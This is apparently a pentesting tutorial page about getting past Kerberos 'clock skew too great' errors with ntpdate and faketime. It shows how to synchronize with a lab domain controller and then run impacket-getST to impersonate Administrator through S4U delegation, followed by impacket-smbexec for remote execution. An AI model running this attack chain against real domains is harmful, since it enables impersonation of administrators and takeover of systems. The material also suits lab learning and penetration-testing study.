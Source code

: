 <div class="banner">
    <div class="ads">
        <span></span>
        Get Free - Docs template
    </div>
    <h1>
        <span>¿By Vishok - Hacking Pentesting?</span>
        Clock Skew Too Great
    </h1>
</div>

####
####
####
## Bypassing Kerberos Time Verification
### Clock skew too great:
**Kerberos** is a network authentication protocol that uses encrypted tickets to verify identities in distributed systems. One of its fundamental security measures is **strict time synchronization** between clients and servers.
####
<div class="tip">

> Is time to perfom a deep analysis to fixed this error. 
</div>

####
```ruby
Kerberos(Clock Skew Too Great)
```
####
Occurs when there's a time difference greater than **5 minutes** (by default) between the local clock and the DC[*Domain Controller*]. This protection prevents replay attacks where an attacker might attempt to reuse old tickets. In compromised environments or during penetration testing, this mechanism can block valid TGT [*Ticket Granting Ticket*] acquisition, preventing access to resources.
####
####
####
## Solution using ntpdate
### Ntpdate:
The **ntpdate** command is a utility for setting and synchronizing the date and time of a computer system to match that of a reliable NTP [*Network Time Protocol*] server. By ensuring the system clock is accurate, ntpdate helps maintain system logs, schedule tasks, and ensure time-sensitive operations run effectively. But this protocol or service can not work, installed or available to distribution that you are using.
####
```ruby
sudo systemctl status systemd-timesyncd          
    Result ->
        Unit systemd-timesyncd.service could not be found.
```
####
Synchronizing a computer internal clock is crucial in maintaining synchronization across clusters databases, and logging services. When systems operate on different times, anomalies may occu  to data corruption or erroneous log entries. Using sudo ntpdate host, an administrator can  computer clock adheres to a globally accepted time standard provided by a specific host stron or NTP server.
####
```ruby
ntpdate coloso.local
    Result ->
        2025-05-06 15:12:02.237340 (-0700) +3181.036456 +/- 0.059572 coloso.local 10.10.11.51 s1 no-leap
        CLOCK: step_systime: Operation not permitted
```
####
Under certain conditions, it might be necessary to enforce an instantaneous time adjustment rather than gradual
syncing, for example avoiding time make use **slewed**, **settimeofday**.
####
```ruby
ntpdate -b coloso.local
```
####
In many cases de the speed of the internet play a crucial role when you try to syncronize against a Domain Controller, in very useful to have so kwoledge in automation programing lenguajes.
####
<div class="tip">

> Is time to craft our custom script to send a **multiple** syncronizing attempt request.
</div>

####
```ruby
for x in $(seq 1 10); do sudo ntpdate coloso.local; done
```
####
####
####
## Solution using faketime
### Faketime:
The **faketime** tool intercepts system time-related calls, allowing applications to be *FOOLED* about the current time, we can use this to bypass the **Kerberos time verification** in **impacket** tools against a Windows System Operation that running over a Domain Controller.
####
First we obtain the exact time from the Domain Controller via SMB, since this protocol doesn't have the same time restrictions as Kerberos and then we use faketime with the obtained time to generate our TGT. This step generates a `.ccache` file with a valid Kerberos ticket, synchronized with the *DC* time.
####
| Get date commands | Description |
| ----- | ----- |
| date /t | Displays only the current date | 
| time /t | Displays only the current time |
| date | Displays and allows you to modify the date |
| Get-Date | Displays full date and time |
| Get-Date -Format "dd/MM/yyyy" | Custom output date | 
| Get-Date -Format "HH:mm:ss" | Hour in 24h format |
| (Get-Date).DayOfWeek | Day of the week |
####
Once we obtain the time of the DC or Windows, we must to pass that time to **faketime**:
####
```ruby
date
    Result -> 
        Tuesday, May 6, 2025 3:07:50 PM

faketime "2025-05-06 15:07:50"
```
####
That command is very important that was executed in the same line or in the same command when you try to connect or get A *TGT* ticket: `faketime - impacket-getST`.
####
<div class="warning">

> The **faketime** command must be added in the same line without use **pipes**, **xargs** etc.
</div>

####
So if we want to get a TGT, we must to execute the next command:
####
```ruby
faketime "2025-04-19 21:24:36" impacket-getST -spn 'cifs/coloso.local' -impersonate Administrator -dc-ip 10.10.11.174 'coloso/vishok$:vishok'
    Result ->
        [+] Getting TGT for user
        [+] Impersonating Administrator
        [+]     Requesting S4U2self
        [+]     Requesting S4U2proxy
        [+] Saving ticket in Administrator.ccache
```
####
The `faketime "2025-04-19 21:24:36" impacket-getST` is in the same line, both are different comands. Furthermore, the second command will haven't a highlight color, but this is normal, don't worry, the second command will be executed.
####
####
####
## Technical Deep Dive: faketime mechanics
### Deep Dive:
**Faketime** works by intercepting system calls related to time through *LD_PRELOAD*, a Linux mechanism that loads libraries before others. The *LD_PRELOAD* variable allows to paths to libraries which are to be loaded before any other libraries are loaded. What’s important, the  symbols e.g. functions contained in the preloaded libraries take precedence over the symbols from libraries loaded afterwards.
####
When applications like **impacket-getST** make system calls to check the current time like `time()`, `gettimeofday()`, or `clock_gettime()`, these calls are redirected to libfaketime instead of the standard C library.
####
<div class="img">
    <img src="/machines/public/clockskew/2.png" loading="lazy" decoding="async" />
</div>

####
####
####
## Final configuration
### KRB5CCNAME:
To use the generated ticket, we export it as an environment variable this tells Impacket tools where to find our Kerberos credentials. Finally we execute the target command with the spoofed time:
####
```ruby
date
Result -> 
        Tuesday, May 6, 2025 3:07:50 PM

KRB5CCNAME=Administrator.ccache faketime "2025-04-19 21:30:08" impacket-smbexec -dc-ip 10.10.11.174 -no-pass -k coloso/administrator@coloso.local
```
####
How you can see, in all moment is necessary use the **faketime**.